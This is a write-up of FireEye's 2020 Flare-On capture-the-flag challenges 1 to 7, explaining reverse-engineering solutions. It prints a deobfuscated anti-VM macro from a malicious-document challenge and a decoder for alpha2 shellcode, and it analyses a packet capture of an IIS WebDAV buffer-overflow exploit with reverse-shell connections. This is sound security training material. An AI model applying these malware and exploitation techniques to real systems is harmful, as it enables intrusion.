# Flare-On Challenge 7 

I recently participated in the 2020 installation of the Flare-On Challenge by FireEye, finishing at 70th. I was fairly fast in the beginning, but lost a bit of motivation near the end. After some encouraging words from other participants, I managed to find the amount of willpower needed to start venturing down the rabbit hole that is challenge 11.

While I have mixed opinions about some of the challenges; all in all, I learned a lot of new things this year as well. My favorite challenge was probably challenge 10, though a few others were high up on the list. Unfortunately, some of the challenges required some logical leaps that weren't easy to figure out. For instance, a _LOT_ of people seemed to get stuck on finding the username on level 6, thinking they had to brute-force the username, or enter "forensics mode" to find it somewhere.

Here I will try to explain my steps, noting down alternate solutions that I know of. Many challenges had multiple solutions, but for the first challenges I prioritized speed.


## 1 - Fidler

```
Welcome to the Seventh Flare-On Challenge!

This is a simple game. Win it by any means necessary and the victory screen will reveal the flag. Enter the flag here on this site to score and move on to the next level.

This challenge is written in Python and is distributed as a runnable EXE and matching source code for your convenience. You can run the source code directly on any Python platform with PyGame if you would prefer.
```

In this challenge we're presented with some kind of game, where the main program file is a Python interpreter packed with all the required packages. We're also given `fidler.py` which contains the game logic, a file that handles controller logic, and some assets. I didn't actually play the game during the competition, but it looks something like this



where you're initially asked for a password (which after rot-1 turns out to be `ghost`).

Instead I noticed the decode_flag function that looks like this

```python
def decode_flag(frob):
    last_value = frob
    encoded_flag = [1135, 1038, 1126, 1028, 1117, 1071, 1094, 1077, 1121, 1087, 1110, 1092, 1072, 1095, 1090, 1027,
                    1127, 1040, 1137, 1030, 1127, 1099, 1062, 1101, 1123, 1027, 1136, 1054]
    decoded_flag = []

    for i in range(len(encoded_flag)):
        c = encoded_flag[i]
        val = (c - ((i%2)*1 + (i%3)*2)) ^ last_value
        decoded_flag.append(val)
        last_value = c

    return ''.join([chr(x) for x in decoded_flag])
```

It takes in a number, uses it to initialize `last_value`, then decrypts the flag letter by letter. Note that `last_value` is updated to be the last *encrypted* letter. This means that if we just guess a random value for `frob`, only the first letter will be messed up. Simply run this function for a random integer and you get `?dle_with_kitty@flare-on.com` ('?' is the unknown). I just guessed that it had to be an 'i', so the flag is `idle_with_kitty@flare-on.com`.


## 2 - Garbage

```
One of our team members developed a Flare-On challenge but accidentally deleted it. We recovered it using extreme digital forensic techniques but it seems to be corrupted. We would fix it but we are too busy solving today's most important information security threats affecting our global economy. You should be able to get it working again, reverse engineer it, and acquire the flag.
```

Next up, we only get a single `exe` binary. The included message mentions that it was recovered "using extreme digital forensic techniques but it seems to be corrupted". With a quick look at the sections of the file, we immediately spot some UPX headers. This is a fairly common executable packer, which also includes an unpacking utility. With knowledge about tricks that can destroy the binary during unpacking, I tried to unpack it anyways, since this is an early challenge.

```cmd
C:\CTF\flareon7\WriteUp>..\upx-3.96-win64\upx.exe -d garbage.exe
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96w       Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
upx: garbage.exe: OverlayException: invalid overlay size; file is possibly corrupt

Unpacked 1 file: 0 ok, 1 error.
```

Oh, so it's not that easy. Looking at the end of the file, it ends in the middle of an XML tag, so it looks like the "extreme digital forensics techniques" ended up truncating it a bit, or it had already been overwritten. After a quick look at the UPX source code, it looks like this check is only verifying the binary length, and we can probably live without the final parts of the binary as long as it unpacks. Here, I decided to simply pad the end with null-bytes until UPX decided to unpack something.

I could've studied the UPX overlay format to figure out exactly how many bytes were missing, but "brrrr" goes the brute-force.

```python
import subprocess

start = open("garbage.exe", "rb").read()

for i in range(10000):
    for retry in range(10):
        try:
            with open("test.exe", "wb") as fd:
                fd.write(start)
                fd.write(b"\x00"*i)
                fd.flush()
                break
        except OSError:
            pass

    try:
        p = subprocess.check_output(["../upx-3.96-win64/upx.exe", "-d", "test.exe"])
        print(p.stdout)
        break
    except subprocess.CalledProcessError:
        pass

```

(I ran into some strange race conditions in the cleanup process, hence the retries. Maybe it would've been faster to just RTFM anyways...)


The unpacked binary does not run still, but it's possible to load it into IDA. Quickly looking through the more meaty functions, I see lots of strings and numbers being used in `sub_40106B`. Basically all of the functions referenced from this function, do some variant of XORing numbers together, so I simply XORed the string representation of the numbers together with the two strings `nPTnaGLkIqdcQwvieFQKGcTGOTbfMjDNmvibfBDdFBhoPaBbtfQuuGWYomtqTFqvBSKdUMmciqKSGZaosWCSoZlcIlyQpOwkcAgw` and `KglPFOsQDxBPXmclOpmsdLDEPMRWbMDzwhDGOyqAkVMRvnBeIkpZIhFznwVylfjrkqprBPAdPuaiVoVugQAlyOQQtxBNsTdPZgDH`. This produced some string starting with `sink_the_tanker.` and another that was `'MsgBox("Congrats! Your key is: C0rruptGarbag3@flare-on.com")\x00'`


## 3 - Wednesday

```
Be the wednesday. Unlike challenge 1, you probably won't be able to beat this game the old fashioned way. Read the README.txt file, it is very important. 
```

"It is Wednesday my dudes - The Game". One of many meme challenges this year.

The given archive contains quite a lot of files; `mydude.exe`, a lot of DLLs for things like SDL and parsing assets, plus some assets (fonts, graphics, sounds). The included `README.txt` reduces the scope a bit, by stating `Only reverse mydude.exe`. I just assumed there wouldn't be any trickery in the other files for now.

Starting up the game, we're presented with this:




it looks like some kind of obstacle course, but we immediately lose at the first obstacle, despite jumping over it. Turns out that there are some obstacles that must be jumped over, and others *ducked under*. After playing the game for a short while, I also noticed that the obstacle layout was static, i.e. completely deterministic. It always started with ducking twice, followed by jumping twice etc. Obstacles also seemed to only come in pairs, with a small pause between each pair.

Opening the game up in IDA, it showed that this game was built in the Nim Programming Language, using something called `nimgame2`. Looking through the sources for nimgame2 made it slightly easier to guesstimate what the original code was doing, something that was made difficult by the number of run-time checks that Nim is doing. One of the first things I tried, was to simply patch away collision detection and let the game run for a while. I'm not sure exactly how long I let it run, but it looked like it just ran forever. And since I didn't gain any points, it didn't hit any win conditions.

A few other things I tried, that didn't work, was to cheat by increasing my initial score, or go to the win screen directly. Both of these approaches produced a win screen, but there was no flag on it. Since the challenge description mentioned "Unlike challenge 1, you probably won't be able to beat this game the old fashioned way", I probably had to think a bit differently.

Going back to my first findings, I tried to make sense of the level design. There are separate assets for "jump" blocks and "duck" blocks, and I replaced the duck ones with just black colored boxes to more easily differentiate them. This led me to think about binary. The first obstacle was always duck, and the first bit in an 8-bit ASCII value is also 0. Could it be....? I disabled collision detection again, and jotted down the first few bits, assuming duck=0 and jump=1, then converting them to ASCII: `1t_i5_w....` - Yep, that's it.

I quickly tried to figure out where it loaded the level, but at this point I was too tired. Instead, I set up the game to just run without collision detection, while I entered 2 bits at a time into the binary to ASCII utility on CyberChef. After mistyping a few bits, then recovering from it, I finally had the entire thing: `1t_i5_wEdn3sd4y_mY_Dud3s@flare-on.com`

After solving this, I talked a bit with others that had solved it, and it looks like you actually *can* win this. You simply need to clear all the obstacles, and the flag will actually be present on the win screen when you reach an exact number of points. This means you can solve the challenge by creating a bot for it, or simply playing it yourself. Changing the assets to more easily distinguish the two block types will make this approach much easier. 


## 4 - Report

```
Nobody likes analysing infected documents, but it pays the bills. Reverse this macro thrill-ride to discover how to get it to show you the key.
```

For the fourth challenge, `report.xls` is given. The challenge description mentions malware and macros. My go-to tool for these types of challenges, is `oletools`. Running `olevba3` will analyze the document, and it quickly shows a few important things:

- There are macros inside the document
- They are set to auto-run
- The Pcode does not match the VBA code in the given macro

The last point is evidence of a technique called "Pcode stomping", which typically means that the VBA code is completely erased from the document - leaving only the bytecode version of it. Here they opted to make them diverge instead, meaning that the given macro code is not what the document will *actually* be doing (at least if the interpreter is able to understand that specific Pcode version).

Even when recognizing what was going on from the start, I went on to re-implement the visible VBA functions in Python, because the embedded Pcode seemed to be very similar to the VBA. My thought was that the actual code would be a small variation of the visible code, meaning my efforts wouldn't be in vain.

`olevba3` is able to dump the VBA code and the Pcode, both of which are very obfuscated. They both rely on a huge hex string, which they fetch data from and decode. In addition to that, the functions have weird names, a lookup function is used to build strings, and all numbers are replaced with equivalent math expressions. There are also some very long hex-strings present in the code. After much deobfuscation, evaluating the math functions, and replacing lookup calls with the proper strings, the code is basically doing this (basic anti-VM)

```vbscript
fudgel = GetObject(winmgmts:\\.\root\CIMV2)
twattling = fudgel.ExecQuery(SELECT Name FROM Win32_Process, , 48)
For Each p In twattling
    Dim pos As Integer
    pos = InStr(LCase(p.Name), "vmw") + InStr(LCase(p.Name), "vmt") + InStr(LCase(p.Name), "vbox")
    If pos > 0 Then
        MsgBox Sorry, this machine is not supported., vbCritical, Error
        End
    End If
Next
groke = CreateObject(WScript.Network)
firkin = groke.UserDomain
If firkin != "FLARE-ON"
    MsgBox(Error, vbCritical, Sorry, this machine is not supported.)
EndIf
```

followed by some calls to a function `canoodle(panjandrum, ardylo, s, bibble)` which reads from the huge hexstring, starting at some offset, for some length, and XORing the results with a a repeating XOR key (given as an array). The VBA code is using the key `xertz = [0x11, 0x22, 0x33, 0x44, 0x55, 0x66, 0x77, 0x88, 0x99, 0xAA, 0xBB, 0xCC, 0xDD, 0xEE]`, and some offsets that produce the file `wabbit.mp3` after XORing, featuring sounds of someone stomping. The ID3 tag says that the artist is "P. Code". That should be a fairly good hint to where to look next, if you didn't already realize what was going on.

Reversing the Pcode, it is very similar to the VBA code. (There are tools that supposedly could recover VBA from Pcode, but I wasn't able to get satisfying results with it.) The difference is that the key is the numeric decimal representation of `FLARE-ON` (backwards), and the offset and length is different. This produces a PNG file instead.

```python
xertz = list(map(ord, "FLARE-ON"))[::-1]
offset = 2
wabbit = [int(F_T_Text[offset+i:offset+i+2], 16) ^ xertz[(i//4)%len(xertz)] for i in range(0, len(F_T_Text)-offset, 4)]
with open("wabbit.png", "wb") as fd:
    fd.write(bytearray(wabbit))
```


## 5 - TKApp

```
Now you can play Flare-On on your watch! As long as you still have an arm left to put a watch on, or emulate the watch's operating system with sophisticated developer tools.
```

TKApp introduces the file `TKapp.tpk`, which was a new file format for me. Searching around a bit, and it looks like it is some app for watches. Since these are written in C#, which is fairly easy to reverse, I didn't bother with an emulator for this.

Using `dnSpy`, I went through most of the code (and there was a lot!) looking for clues. The `MainPage` class has multiple interesting functions that check

```C#
if (!string.IsNullOrEmpty(App.Password) && 
    !string.IsNullOrEmpty(App.Note) && 
    !string.IsNullOrEmpty(App.Step) && 
    !string.IsNullOrEmpty(App.Desc))
{ ... }
```

 if these are all set, it computes the SHA256 hash of them and compare with a known hash. If the hashes match, some special part of the function is executed. One of these, seem to fetch letters from certain indexes of the password, note, step and desc fields, then build a decryption key with it. That key is finally used to decrypt an image, which hopefully contains our flag. Our quest is then to figure out what's setting all these fields. 

### App.password

The initial screen should ask for a password, and its code looks like this

```C#
private async void OnLoginButtonClicked(object sender, EventArgs e)
{
    if (this.IsPasswordCorrect(this.passwordEntry.Text))
    {
        App.IsLoggedIn = true;
        App.Password = this.passwordEntry.Text;
        base.Navigation.InsertPageBefore(new MainPage(), this);
        await base.Navigation.PopAsync();
    }
    else
    {
        Toast.DisplayText("Unlock failed!", 2000);
        this.passwordEntry.Text = string.Empty;
    }
}
```

The `IsPasswordCorrect()` function calls `Util.Decode(TKData.Password)`, where the Decode function is just XORing numbers with 83 and converting to a char, and the `TKData.Password` is an array of numbers `[62,38,63,63,54,39,59,50,39]`. To make this check pass, we have to enter `mullethat` as the password.

### App.note

`App.note` is set in the `TodoPage` class. This class is setting up some Todo collections.

```C#
private void SetupList()
{
    List<TodoPage.Todo> list = new List<TodoPage.Todo>();
    if (!this.isHome)
    {
        list.Add(new TodoPage.Todo("go home", "and enable GPS", false));
    }
    else
    {
        TodoPage.Todo[] collection = new TodoPage.Todo[]
        {
            new TodoPage.Todo("hang out in tiger cage", "and survive", true),
            new TodoPage.Todo("unload Walmart truck", "keep steaks for dinner", false),
            new TodoPage.Todo("yell at staff", "maybe fire someone", false),
            new TodoPage.Todo("say no to drugs", "unless it's a drinking day", false),
            new TodoPage.Todo("listen to some tunes", "https://youtu.be/kTmZnQOfAF8", true)
        };
        list.AddRange(collection);
    }
    List<TodoPage.Todo> list2 = new List<TodoPage.Todo>();
    foreach (TodoPage.Todo todo in list)
    {
        if (!todo.Done)
        {
            list2.Add(todo);
        }
    }
    this.mylist.ItemsSource = list2;
    App.Note = list2[0].Note;
}
```

`isHome` is set in another function, and checks if you're at "home", where the current GPS position is compared against some hard-coded value. You need to be within a certain range from the "Home" position if running this code on a watch. If you're at home, it adds a few TodoPage items to a collection, and sets `App.Note` to the first element in the list of not-done TODOs (initialized with a `false`). This happens to be `keep steaks for dinner`.

### App.Step

Using the analyze function in dnSpy, we see that it's set in `TKApp.MainPage.PedDataUpdate`

```C#
private void PedDataUpdate(object sender, PedometerDataUpdatedEventArgs e)
{
    if (e.StepCount > 50U && string.IsNullOrEmpty(App.Step))
    {
        App.Step = Application.Current.ApplicationInfo.Metadata["its"];
    }
...
```

If number of steps is more than 50, it fetches some metadata from the app and sets App.Step to that.

This field can be found in `tizen-manifest.xml`, as part of the app metadata

```xml
...    
<ui-application appid="com.flare-on.TKApp" exec="TKApp.dll" multiple="false" nodisplay="false" taskmanage="true" api-version="6" type="dotnet" launch_mode="single">
    <label>TKApp</label>
    <icon>TKApp.png</icon>
    <metadata key="http://tizen.org/metadata/prefer_dotnet_aot" value="true" />
    <metadata key="its" value="magic" />
    <splash-screens />
</ui-application>
...
```

App.Step = "magic"

### App.Desc

Again going by the analyze function in dnSpy, this field is set in GalleryPage as part of this function

```C#
private void IndexPage_CurrentPageChanged(object sender, EventArgs e)
{
    if (base.Children.IndexOf(base.CurrentPage) == 4)
    {
        using (ExifReader exifReader = new ExifReader(Path.Combine(Application.Current.DirectoryInfo.Resource, "gallery", "05.jpg")))
        {
            string desc;
            if (exifReader.GetTagValue<string>(ExifTags.ImageDescription, out desc))
            {
                App.Desc = desc;
            }
            return;
        }
    }
    App.Desc = "";
}
```

When some image is changed, it tries to use an ExifReader to fetch the image description from the file `gallery/05.jpg`. Any rudimentary EXIF tool will tell you that the description is simply `water`.

### Flag

Now that all the parts are set, functions that check these fields should do their special function. One important function is `MainPage.GetImage()`, which is called when some button is pressed. This function is a bit too long to print here, but it is simply taking letters from multiple indexes of each App object field, building the string `the kind of challenges we are gonna make here`. Together with the IV `NoSaltOfTheEarth`, the SHA256 hash of this new string is used as an AES-CBC key to decrypt the file `Runtime.dll`. The result is a JPG, which will be shown on the watch.


## 6 - codeit

```
Reverse engineer this little compiled script to figure out what you need to do to make it give you the flag (as a QR code).
```

Given here, is `codeit.exe`, which looks like this when started.



Entering some text and clicking the button, replaces the initial image with a QR code, which correctly encodes the string that was entered.

When inspecting this program during execution, it has some tell-tale signs of being a compiled AutoIt script, something that can be confirmed by opening the binary with Resource Hacker. Under `RCData`, we find a resource called `SCRIPT` that includes the AutoIt 3 header (`AU3!`).




This is a compiled AutoIt 3 script, and despite the official forums completely banning all discussion of RE, stating that decompiling these is hard, there are multiple tools out there that will easily produce runnable, textual code from this resource. One of these is `AutoIt Extractor`, which I used. Renaming the resulting file to end with `.au3` lets you run this file in AutoIt 3 directly, to test out if modifications to the script broke something. You also need to extract the assets used, using e.g. Resource Hacker again, to get the `qr_encoder.dll` and `sprite.bmp` files.

The initial version of the extracted script is heavily obfuscated. Strings are read from a long array called `OS`, which is based on a long string split by the token `4FD5$`. 

Some quick replacement regexes makes it much more readable

```python
from decode import OS # Just the string split by the token and converted to bytes
matches = re.findall('(\$fl[a-z]{8}) = Number\(" (\d+) "\)', data)
for name, val in matches:
    data = data.replace(name, val)

matches = re.findall("DECODESTRING\(\$os\[\d+\]\)", data)
for m in matches:
    num = int(m[m.index("[")+1 : m.index("]")])
    data = data.replace(m, repr(OS[num-1]))
```


The script is heavily making use of the Windows API, building and initializing structs on the fly, calling DLLs directly, and passing the structs around. Ex:

```
Func CREATEFILE($filename)
    Local $flrichemye = DllCall('kernel32.dll', 'ptr', 'CreateFile', 'str', @ScriptDir & '\\' & $filename, 'uint', 2147483648, 'uint', 0, 'ptr', 0, 'uint', 3, 'uint', 128, 'ptr', 0)
    Return $flrichemye[0]
EndFunc   ;==>CREATEFILE
```

What the program is doing is very linear though, and not very hard to understand when the functions are renamed and mapped out. Note that there is a lot of dead code in the script, which makes me think this challenge is based on some framework, or maybe toned down in difficulty late in development. It goes like this:

1. Upon startup, it extracts some assets required to function. These are given pseudo-random names.
2. A GUI is built, with a few buttons and boxes. Nothing hidden there.
3. When string-to-QR encoding is triggered, a BMP file with the QR code is built and displayed, using functionality in the included DLL (which has nothing special in it).
4. Before actually building the QR-code, a mysterious function is called.

The mysterious function is very long, and the start looks something like this

```
Func DECRYPTSTUFF(ByRef $flodiutpuy)
    Local $computername = GETCOMPUTERNAME()
    If $computername <> -1 Then
        $computername = Binary(StringLower(BinaryToString($computername)))
        Local $computernameraw = DllStructCreate('struct;byte[' & BinaryLen($computername) & '];endstruct')
        DllStructSetData($computernameraw, 1, $computername)
        TRANSFORM($computernameraw)
        Local $cryptostruct = DllStructCreate('struct;ptr;ptr;dword;byte[32];endstruct')
        DllStructSetData($cryptostruct, 3, 32)
...
```

It is reading the computer hostname via Windows API calls, converting it to lowercase, then calls `TRANSFORM()` on it. After this, a lot of crypto stuff happens. The name is hashed, then used as an encryption key to decrypt a long bytestring. If this bytestring contains the tokens `FLARE` and `ERALF`, the input param `$flodiutpuy` is set to the data between these tokens. The param is passed by reference, so it changes the original variable from the caller function. This data most likely contains the flag.

Our goal now is to figure out what the computer name must be for the flag to appear. This is where I think a lot of people struggled, trying to figure out weaknesses in the Cryptographic implementation or going hardcore forensics on the binaries, looking for file metadata everywhere - even in previous challenges. The clue here is actually in the `TRANSFORM()` function, although it is far from obvious.

The main meat of the `TRANSFORM(ByRef $computername_raw)` looks like this:

```
Func TRANSFORM(ByRef $computername_raw)
    Local $randbmpfilename = RANDFILENAME(14)
    Local $filehandle = CREATEFILE($randbmpfilename)
    If $filehandle <> -1 Then
        Local $filesize = GETFILESIZE($filehandle)
        If $filesize <> -1 And DllStructGetSize($computername_raw) < $filesize - 54 Then
            Local $flnfufvect = DllStructCreate('struct;byte[' & $filesize & '];endstruct')
            Local $flskuanqbg = READFILE($filehandle, $flnfufvect)
            If $flskuanqbg <> -1 Then
                Local $buffers = DllStructCreate('struct;byte[54];byte[' & $filesize - 54 & '];endstruct', DllStructGetPtr($flnfufvect))
                Local $ix = 1
                Local $newname = ''
                For $i = 1 To DllStructGetSize($computername_raw)
                    Local $curbyte = Number(DllStructGetData($computername_raw, 1, $i))
                    For $j = 6 To 0 Step -1
                        $curbyte += BitShift(BitAND(Number(DllStructGetData($buffers, 2, $ix)), 1), -1 * $j)
                        $ix += 1
                    Next
                    $newname &= Chr(BitShift($curbyte, 1) + BitShift(BitAND($curbyte, 1), -7))
                Next
                DllStructSetData($computername_raw, 1, $newname)
            EndIf
        EndIf
        CLOSEHANDLE($filehandle)
    EndIf
    DELETEFILE($randbmpfilename)
EndFunc   ;==>TRANSFORM
```

What's actually happening here, is that it is re-generating the random file name for the initial sprite bitmap file, a file that already has been extracted and written to. Then it reads data from it, starting at offset 54. Each byte has 1 bit cut off, and ANDed together with 1 of the 7 last bits for each letter in the computer name. Finally, the entire bitstring is rotated right once, and converted back to a ASCII. It's equivalent to this:

```python
def transform(name):
    ix = 0
    newname = b''
    for i in range(0, len(name)):
        curbyte = name[i]
        for j in range(6, -1, -1):
            curbyte += ((buff[ix]&1) << j)
            ix += 1
        newname += bytes([(curbyte>>1) + ((curbyte&1)<<7)])
    return newname
```

given some buffer `buff` that is plain bytes, read from the bitmap file at position 54 and on. For most strings, this function turn them into gibberish. That gibberish is then just hashed and tested as a decryption key inside the script. There are no further checks of correctness of the hostname between this function and the decryption routine itself.

What you had to realize here, is that adding bits like this, then rotating right, essentially averages the bits from the name and the bitmap. If you have a bitstring, and add the same bits that are already present in it, then you've multiplied it by 2. Multiplying by 2 is the same as shifting all bits to the right once. Since it's ASCII, where the leading bit is 0, shifting to the left *once* is the same as rotating to the left once. And if you've already rotated it left once, rotating it right will be the same as shifting it right, which is the same as dividing by 2 again. The point is to find a string, such that `transform(name) == name`, where `transform(x)` averages the bits in `x` with the bits in `correct_hostname`.

An alternate approach is to study the bytes that are present in the BMP from byte 54 and on, and see that it alternates between FF and FE. Treating FF as 1 and FE as 0, then using that to encode 7-bit ASCII, also reveals the name: `aut01tfan1999`. Setting the hostname to this name and generating a QR code gives the flag directly, so there's no need to delve deeper into the decryption algorithm: `L00ks_L1k3_Y0u_D1dnt_Run_Aut0_Tim3_0n_Th1s_0ne!@flare-on.com`


## 7 - RE Crowd

```
Hello,

Here at Reynholm Industries we pride ourselves on everything.
It's not easy to admit, but recently one of our most valuable servers was breached. 
We don't believe in host monitoring so all we have is a network packet capture.
We need you to investigate and determine what data was extracted from the server, if any.

Thank you
```

### Forensics

The only given file is `re_crowd.pcapng`, so we're apparently doing forensics now. The PCAP starts off with some HTTP requests, requesting some message board where it hints a bit towards what to look out for.

```
...
Denholm: Jen. I hear other employees can't log in to this computer screen. Where are the logs kept? What kind are they, birch?
Jen: Moss, I need a list of employee's user names and passwords.
Moss: Jen, sending you that list would would go against our cybersecurity policy.
Denholm: Jen. I emailed you a secret file containing a list of all our employee's usernames and passwords as well as favorite animal. Get them using this site.
Jen: Roy, can you help me create the accounts? I saved the file to C:\accounts.txt on the server.
Roy: Fine. Swing by my desk later. I'm not happy about this, not one bit.
Moss: Jen, that server seems awfully old. You might want to think about applying the latest security patches.
...
```


the rest of the PCAP is mostly filled with some strange requests against the Web Server, using the "PROPFIND" method. Here's an example:



(Note that the symbols noted as dots, are actually valid widechars, rendering as Chinese symbols)

After doing some research, this looks like someone trying to exploit `CVE-2017-7269`, which has a CVSS score of 10.0, and is described as

```
Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016. 
```

Comparing the various requests, it looks like they are differing 1 byte in length for each request. This is likely someone trying to brute-force the offset of the buffer it is trying to overflow, until the payload finally is executed. At TCP stream 49, there's no response at all to the request. In addition, the server is suddenly connecting to the client on port 4444, where it receives a 1243 byte payload. Shortly after, the server connects to the client again on port 1337, and sends a 206 byte payload back. The most likely scenario, is that the payload worked in stream 49, but what exactly happened?


### A lesson in weird payload encodings

One thing I noticed when reading about the vulnerability, is that what usually follows the widechars is shellcode. But in this case, it's all ASCII. The original exploit I found, had an exploit starting with `VVYA4444444444QATAXA`, and I found many examples that started with a similar structure, but none looked the same as in the payload in the PCAP.

Luckily, simply Googling the start of the payload pointed me towards some "Ph4nt0m Security" zine, which introduced an improved version of an "unicode proof" IA-32 shellcode encoder called Alpha2, which produced ASCII payloads. This encoder is also present in the Metasploit framework, where ports like 4444 and 1337 are a common sight. Metasploit also has a module for this exact vulnerability.

Anyways, after mucking around a bit with the source code, and modifying some [existing resources](http://theloshackers.blogspot.com/2013/08/decode-shell-code-encoded-by-alpha2.html), I had a working decoder for it:

```C
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char argv[], char envp[]) {
  int   i, ii, A, B, D, E, F;
  char c;
  while ((i = getchar()) != EOF) {
        ii = getchar();
        D = (i & 0x0f);
        E = (ii & 0xf0) >> 4;
        F = (ii & 0x0f);
        A = (D+E)&0x0F; // Originally D^E in the other version;
        B = F;
    printf("\\x%X%X", A, B);
  }
  exit(EXIT_SUCCESS);
}
```

The header that was used for the payload, shows that it assumes that `ESI` contains the base address of the binary once the payload starts executing, and that every byte is converted to wide-chars (i.e. has `\x00` appended to it). This is the "unicode proof" variant of the alpha2 encoding.

From this, I was able to build my own exploit based on the shellcode, and run it. I noticed now that it tried to connect to the same ports, but the transmissions looked encrypted. Maybe I can just guess what's going on instead?

Since everything about this challenge smelled like Metasploit, I wanted to test some commonly used encryption algorithms. I simply ran strings on the resulting binary and got `killervulture123` and `intrepidmango`. Next, I guessed that one of the standard stream ciphers were used, as the payload wasn't aligned on a common block-length, and tested RC4 for decrypting the second payload - the one sent on port 1337.

```python
>>> from Crypto.Cipher import ARC4
>>> data = bytes.fromhex("43665783a5238977beac1b1f878f58933f24cf2cd39aa8d11a67fcd38dbb33c034babf560c560d20d1d1888415b4f06176c9e0b01739d836018fa8bfff84d78b2a4246faebd92d1eccc2d7c8bbfd08cbde245ef15b288bca459be20acf957df10babcd911934119009c0225efc44a26fd25ca9b8519644ec5849fa100182c6830dc704cfe83f1c7002b497a830905776e0a088d56e4387e880f2c41e43366c9bc06aa2aa1962d94c008161ea4f2811a83f77cb57d6313004196ca6980ae49e95d0f7d8943d4891a01b46161")
>>> print(ARC4.new(b"intrepidmango").decrypt(data).decode())
roy:h4ve_you_tri3d_turning_1t_0ff_and_0n_ag4in@flare-on.com:goat
moss:Pot-Pocket-Pigeon-Hunt-8:narwhal
jen:Straighten-Effective-Gift-Pity-1:bunny
richmond:Inventor-Hut-Autumn-Tray-6:bird
denholm:123:dog
```

And there you have it. `h4ve_you_tri3d_turning_1t_0ff_and_0n_ag4in@flare-on.com`


